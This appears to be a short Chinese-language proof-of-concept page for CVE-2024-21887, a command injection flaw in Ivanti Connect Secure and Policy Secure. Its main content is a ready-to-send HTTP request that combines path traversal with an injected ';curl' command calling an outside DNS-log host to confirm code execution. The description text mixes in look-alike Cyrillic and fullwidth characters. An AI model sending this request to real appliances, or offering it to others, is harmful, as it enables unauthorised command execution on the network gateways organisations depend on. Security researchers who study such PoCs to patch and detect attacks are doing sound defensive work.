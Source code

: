 ## Ivanti_Connect_Secure远程命令注入漏洞(CVE-2024-21887)

Ivаｎti Cоnnесt Sесurе（9.х、22.х）和 Ivаnti Pоliсу Sесurе 的 Wеb 组件中存在一个命令注入漏洞，使得经过身份验证的管理员能够发送特别构建的请求并在设备上执行任意命令 。
![image](https://github.com/user-attachments/assets/4e37dd89-70a8-40d4-b399-d700666c27ee)

## poc
```
GET /api/v1/totp/user-backup-code/../../license/keys-status/%3bcurl%20z5i19y.dnslog.cn HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate
```

![df97ad07a0d2c2d795cffdd955b1a38b](https://github.com/wy876/POC/assets/139549762/6c54dede-fb0f-4749-99c6-1324cae93042)
